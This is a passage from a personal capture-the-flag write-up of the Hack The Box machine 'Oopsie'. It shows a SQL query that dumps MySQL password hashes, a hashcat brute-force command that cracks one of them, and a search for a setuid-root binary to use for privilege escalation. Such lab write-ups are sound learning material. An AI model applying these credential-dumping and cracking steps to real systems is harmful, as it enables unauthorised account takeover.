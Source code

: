     USE sys;
    SELECT SUBSTR(authentication_string,2) AS hash FROM mysql.user WHERE plugin = 'mysql_native_password' AND authentication_string NOT LIKE '%THISISNOTAVALIDPASSWORD%' AND authentication_string !='';

These just give the same hashes as this lol.

```
debian-sys-maint:D1DBADEE9E3EE2D0767B40F19463FB6C5EB6D594
dbuser:9CFBBC772F3F6C106020035386DA5BBBF1249A11
robert:2429DD64CD7A63687EA257432557FEFDA6D6F2A1
```

Now to run hashcat on my host, windows. Not going to do any recording here b/c there's plenty of guides on how to do that.

This is the format of the text file to crack that HashCat expects (from <https://hashcat.net/wiki/doku.php?id=example_hashes>)

It's hash-mode `300`.

```
D1DBADEE9E3EE2D0767B40F19463FB6C5EB6D594
9CFBBC772F3F6C106020035386DA5BBBF1249A11
2429DD64CD7A63687EA257432557FEFDA6D6F2A1
```

    .\hashcat.exe -m 300 -a 3 .\hashes2.txt -d 2

`-m 300`: MySQL4.1/MySQL5 hash mode
`-a 3`: Attack mode 3, brute force
`-d 2`: Use device 2, GPU

I waited about 4 hours. This is definitely not the intended route. I did crack one hash though.

    dbuser:9CFBBC772F3F6C106020035386DA5BBBF1249A11:toor

I'm going to cheat again and just look at the guide. I am stuck.

## groups

So, apparently Robert is part of a special group. That's all I saw.

    id

reveals that robert is part of `bugtracker` group.

```
robert@oopsie:/$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

    find / bugtracker

Returns

    /usr/bin/bugtracker

```
robert@oopsie:/$ ls -lash /usr/bin/bugtracker
ls -lash /usr/bin/bugtracker
12K -rwsr-xr-- 1 root bugtracker 8.6K Jan 25  2020 /usr/bin/bugtracker
```
